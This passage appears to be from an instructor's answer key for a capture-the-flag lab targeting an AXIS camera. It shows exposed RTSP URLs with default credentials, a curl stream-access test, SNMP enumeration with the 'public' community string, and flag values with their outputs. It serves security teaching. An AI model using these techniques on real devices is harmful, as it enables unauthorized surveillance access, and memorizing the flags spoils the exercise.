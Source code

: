 **Output:**
```
# AXIS Camera Stream Configuration
# WARNING: This file should not be publicly accessible!
# 
# Available streams:
# Main Stream (High Quality)
rtsp://admin:admin@192.168.1.100:554/stream1

# Sub Stream (Low Quality) 
rtsp://root:pass@192.168.1.100:554/stream2?token=FLAG{SARUMAN83479324}

# Motion Detection Stream
rtsp://192.168.1.100:554/motion

# Audio Stream
rtsp://192.168.1.100:554/audio
```

```bash
# Test RTSP stream access
curl -i rtsp://192.168.1.132:554/stream1
```

**Output:**
```
RTSP/1.0 401 Unauthorized
WWW-Authenticate: Basic realm="AXIS Camera"
Date: Mon, 27 Jan 2025 10:15:00 GMT
```

**Teaching Points:**
- RTSP URLs often contain embedded credentials
- Stream tokens may be hardcoded for integration
- Always check for documentation files in web root

**Common Student Mistakes:**
- Not trying both HTTP and RTSP protocols
- Missing URL parameters that contain sensitive data
- Not checking for alternate stream paths (/stream1, /live, /ch01)

---

### Flag #19: Default SNMP Community Strings
**Location**: `/etc/snmp/snmpd.conf`  
**Flag**: `FLAG{THEODEN40558954}`

```bash
# SNMP enumeration using default community string
snmpwalk -v2c -c public 192.168.1.132 system
```

**Output:**
```
SNMPv2-MIB::sysDescr.0 = STRING: AXIS Camera FLAG{THEODEN40558954}
SNMPv2-MIB::sysObjectID.0 = OID: SNMPv2-SMI::enterprises.368.1.1
SNMPv2-MIB::sysUpTime.0 = Timeticks: (234523) 0:39:05.23
SNMPv2-MIB::sysContact.0 = STRING: admin@axis.local
SNMPv2-MIB::sysName.0 = STRING: AXIS-CAM-001
SNMPv2-MIB::sysLocation.0 = STRING: Building A - Floor 2
```
